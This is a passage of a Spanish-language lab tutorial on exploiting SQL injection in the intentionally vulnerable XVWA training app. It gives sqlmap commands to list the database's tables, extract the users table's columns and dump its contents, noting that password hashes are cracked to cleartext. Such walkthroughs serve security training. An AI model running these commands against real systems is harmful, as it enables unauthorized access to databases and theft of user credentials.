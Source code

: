 Después de ejecutar el comando, debería ver la siguiente ventana.
![image](https://user-images.githubusercontent.com/50930193/171914916-b57079ea-3cec-476a-9f3a-5979cf1fe52e.png)

Podemos ver los resultados de dicha búsqueda
![image](https://user-images.githubusercontent.com/50930193/171914970-50955c5d-73cf-482f-a995-796105153dd5.png)


La base de datos xvwa parece interesante. Entonces, elijamos la base de datos xvwa y busquemos tablas usando el siguiente comando.

```
sqlmap -r sqli.txt -p search –dbms=mysql -D xvwa --tables
```

Después de ejecutar el comando anterior, deberíamos poder ver los siguientes nombres de tabla de la base de datos xvwa.

![image](https://user-images.githubusercontent.com/50930193/171917148-7dda4eef-6f2b-47ee-a304-7e2ef5d33583.png)

Del paso anterior, podemos ver que tenemos tres tablas. Extraigamos los nombres de las columnas de la tabla users . Ejecutemos el siguiente comando.

```
sqlmap -r sqli.txt -p search –dbms=mysql -D xvwa –T users --columns
``` 
El comando anterior obtendrá todos los nombres de columna de los usuarios de la tabla .

![image](https://user-images.githubusercontent.com/50930193/171917651-81bcc57b-d555-49e5-8bf5-486a4a4a79b9.png)

 Como podemos notar, tenemos tres columnas diferentes. 

Finalmente, necesitamos volcar todos los datos de la tabla users . Podemos hacerlo usando el siguiente comando.

```
sqlmap -r sqli.txt -p search –dbms=mysql -D xvwa –T users --dump
```
 
El siguiente extracto muestra que los hashes están descifrados y las contraseñas de texto claro se muestran junto a sus hashes.

![image](https://user-images.githubusercontent.com/50930193/171918574-ac07a128-9afb-4509-a48e-1f11a57bfb90.png)
